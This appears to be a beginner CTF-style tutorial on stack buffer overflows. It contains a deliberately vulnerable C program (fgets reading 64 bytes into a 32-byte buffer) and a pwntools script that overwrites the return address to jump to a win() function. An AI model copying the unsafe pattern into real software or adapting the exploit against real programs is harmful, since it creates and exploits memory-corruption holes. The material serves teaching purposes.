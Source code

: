 # 🧠 The Plan

## 🧩 The Basics

Most memory and low-level exploits stem from **bad memory management**. This is an inherent flaw in languages like **C/C++**, which:

- Allow direct memory access
- Don't enforce memory safety
- Lack features like garbage collection or scoped memory management

---

## 📌 Example C Code

```c
#include <stdio.h>
#include <stdlib.h>

void win() {
    printf("win() called!\nHere's your flag: flag{dummy_flag}\n");
}

int main(void) {
    char name[32];   // Buffer of 32 bytes

    fgets(name, 64, stdin); // Reading 64 bytes into a 32-byte buffer
}
```

### ❓ What’s the issue?

What happens when you **overfill** a water bucket?

> It ***overflows***! 💥

That’s exactly what happens here — we overflow the `name` buffer.

---

## 💣 What is a Buffer Overflow?

![](bof.png)

We're simply **filling the buffer** until we reach critical data — like the **return address** (shown above in red).

If we can control the value **written** to the return address...

> We can control **where the program jumps to next**.

Think of it like hijacking a plane:

- It’s headed to a predefined destination (the original return address).
- But you take over, and reroute it somewhere else — like `win()`!

---

## 🧪 In Practice

Before launching an attack, we **reverse engineer** the binary to find vulnerabilities.

Here’s a sample exploit script using `pwntools`:

```python
from pwn import *

elf = context.binary = ELF('./exploitme')

p = elf.process()
offset = 40

payload = b''
payload += b'A' * offset
payload += pack(0x401136)  # Address of win()

print('\n-=-=-=-=-=-=-=-=-=-=-=-')
print(hexdump(payload))
print('-=-=-=-=-=-=-=-=-=-=-=-\n')
info(f'Payload length: {len(payload)}')

info('Sending exploit...\n\n')

p.sendline(payload)
print(p.recv().decode())
```

---